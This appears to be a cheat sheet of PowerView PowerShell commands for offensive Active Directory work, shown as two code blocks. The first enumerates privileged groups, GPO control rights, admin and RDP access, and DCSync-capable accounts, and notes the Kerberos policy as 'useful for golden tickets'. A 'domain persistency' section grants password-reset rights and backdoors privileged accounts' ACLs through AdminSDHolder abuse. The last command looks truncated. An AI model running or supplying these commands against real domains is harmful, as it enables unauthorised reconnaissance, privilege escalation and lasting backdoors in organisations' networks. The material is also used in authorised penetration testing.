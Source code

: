 ```powershell

# Find any machine accounts in privileged groups
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'}

# Enumerate permissions for GPOs where users with RIDs of > -1000 have some kind of modification/control rights
Get-DomainObjectAcl -LDAPFilter '(objectCategory=groupPolicyContainer)' | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}

# find all policies applied to a computer/server
Get-DomainGPO -ComputerIdentity <Server>.<FQDN>

# return the local group *members* of a remote server using Win32 API methods (faster but less info)
Get-NetLocalGroupMember -Method API -ComputerName <Server>.<FQDN>

# enumerate the current domain controller policy
$DCPolicy = Get-DomainPolicy -Policy <DC>
$DCPolicy.PrivilegeRights # user privilege rights on the dc...

# enumerate the current domain policy
$DomainPolicy = Get-DomainPolicy -Policy Domain
$DomainPolicy.KerberosPolicy # useful for golden tickets
$DomainPolicy.SystemAccess # password age/etc.

# enumerate what machines that a particular user/group identity has local admin rights to
#   Get-DomainGPOUserLocalGroupMapping == old Find-GPOLocation
Get-DomainGPOUserLocalGroupMapping -Identity <User/Group>

# enumerate what machines that a given user in the specified domain has RDP access rights to
Get-DomainGPOUserLocalGroupMapping -Identity <User> -Domain <Domain> -LocalGroup RDP

# export a csv of all GPO mappings
Get-DomainGPOUserLocalGroupMapping | %{$_.computers = $_.computers -join ", "; $_} | Export-CSV -NoTypeInformation gpo_map.csv

# retrieve *most* users who can perform DC replication for dev.<Domain>.local (i.e. DCsync)
Get-DomainObjectAcl "dc=dev,dc=<Domain>,dc=local" -ResolveGUIDs | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}
```

## <a name='ENUM:DOMAINPERSISTENCY'></a>ENUM: DOMAIN PERSISTENCY

```powershell
# enumerate who has rights to the 'matt' user in '<Domain>.local', resolving rights GUIDs to names
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain <Domain>

# grant user 'will' the rights to change 'matt's password
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose

# audit the permissions of AdminSDHolder, resolving GUIDs
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=<Domain>,DC=local' -ResolveGUIDs

# backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=<Domain>,DC=local' -PrincipalIdentity matt -Rights All/
```

